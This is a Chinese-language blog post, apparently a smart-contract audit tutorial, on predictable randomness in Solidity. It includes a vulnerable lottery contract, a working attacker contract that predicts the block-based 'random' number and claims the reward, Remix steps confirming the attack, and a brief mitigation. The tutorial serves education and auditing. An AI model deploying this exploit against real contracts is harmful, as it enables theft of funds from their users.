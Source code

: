 ```yaml
---
layout: post_layout
title: 智能合约审计-随机误用
time: 2020年1月11日 星期三
location: 合肥
pulished: true
excerpt_separator: "#"
---
```


描叙：智能合约开发中，在程序中使用随机数较好的伪随机数是很难的。很多看似无法被预言的随机数种子或变量，实际被预言的难度很低。

核心问题：一旦在智能合约中使用了随机性很差的随机数作为关键变量，就面临着随机数被预言的攻击风险。

# 一些概念

#### 智能合约常用的随机数计算方式

> keccak256(seed)

#### 常用seed的选取：

- 私有变量

- 区块有关状态block.something

- msg.sender

- 上述数据的哈希或者运算组合

#### 常用的区块属性

- block.blockhash

- block.coinbase

- block.difficulty

- block.gaslimit

- block.number

- block.timestamp

> 使用区块相关属性作为随机数种子，是一种常见但是非常不安全的方式，其不安全在于，这些数据对于同一个transaction中的合约调用是可预测的。

### msg.sender随机预测

- 使用msg.sender做为随机数种子的安全风险在于，该数据是用户可控的。若随机数种子一旦可以被攻击者选择或控制，就会使随机数面临被预测的风险。

> https://vanity-eth.tk 生成特定的地址

# 漏洞合约分析

```sol
pragma solidity ^0.4.24;

contract RandomGame{
    mapping (address => uint256) public balances;
    
    event LuckyLog(uint lucky_number, uint guess);

    function lucky(uint256 guess) public returns(uint256){
        uint256 seed = uint256(keccak256(abi.encodePacked(block.number)))+uint256(keccak256(abi.encodePacked(block.timestamp)));
        uint256 lucky_number = uint256(keccak256(abi.encodePacked(seed))) % 100;
        if(lucky_number == guess){
            balances[msg.sender] += 1000;
        }
        emit LuckyLog(lucky_number,guess);
        return lucky_number;
    }
}
```
漏洞点：使用了不安全的block.number做为随机数的种子，导致随机数可以被预测，攻击者可以在合约中进行预测，造成一定损失。

# 攻击者合约

```sol
pragma solidity ^0.4.24;

contract RandomGame{
    mapping (address => uint256) public balances;
    
    event LuckyLog(uint lucky_number, uint guess);

    function lucky(uint256 guess) public returns(uint256){
        uint256 seed = uint256(keccak256(abi.encodePacked(block.number)))+uint256(keccak256(abi.encodePacked(block.timestamp)));
        uint256 lucky_number = uint256(keccak256(abi.encodePacked(seed))) % 100;
        if(lucky_number == guess){
            balances[msg.sender] += 1000;
        }
        emit LuckyLog(lucky_number,guess);
        return lucky_number;
    }
}

contract AttackRandom{
    RandomGame rg;
    
    function setTarget(address _addr) public {
        rg=RandomGame(_addr);
    }
    
    function attack() public returns(uint256){
        uint256 seed = uint256(keccak256(abi.encodePacked(block.number)))+uint256(keccak256(abi.encodePacked(block.timestamp)));
        uint256 lucky_number = uint256(keccak256(abi.encodePacked(seed))) % 100;
        rg.lucky(lucky_number);
        return lucky_number;
    }
}
```
----------
# 使用Remix进行进行调试

- 首先对合约进行编译（Current version设置为0.4.24，Auto compile，Enable Optimization全部勾上。编译完成后会出现2个合约分别为RandomGame、AttackRandom部署

- 将AttackRandom合约中setTarget设置为RandomGame合约地址(0xdc0...46222)

- 点击attack发起攻击，然后在RandomGame合约中balances中输入攻击者合约地址(0x8c1...401f5)，查询余额，发现为1000 wei ETH，实验成功。

# 漏洞预防

1. 使用Oraclize提供的一个合约接口库，可以通过链下off-chain的数据流推送data-feed来提供与链状态无关的随机数
